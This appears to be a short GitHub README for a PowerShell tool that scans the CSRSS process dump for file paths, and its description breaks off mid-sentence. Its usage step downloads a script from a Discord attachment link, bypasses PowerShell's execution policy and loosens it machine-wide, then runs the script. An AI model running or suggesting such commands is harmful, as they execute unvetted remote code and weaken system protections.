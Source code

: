 # CSRSS Powershell Script
Checks the Systems CSRSS Dump for file-paths, then checks the files for 

### Usage of other Software
This script completely runs without any use of external software. Simply open Powershell and run:

New-Item -Path "C:\temp\dump\csrss" -ItemType Directory -Force | Out-Null;
Set-Location "C:\temp\dump\csrss";
Invoke-WebRequest -Uri "https://cdn.discordapp.com/attachments/1269629607674646540/1269629658467401788/csrss.ps1?ex=66b0c243&is=66af70c3&hm=1e220e364f6c6b853eb3b4d2846fb34e0590d299496db73529b7ce42bbccbaad&" -OutFile "csrss.ps1"; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Set-ExecutionPolicy RemoteSigned -Scope LocalMachine; .\csrss.ps1
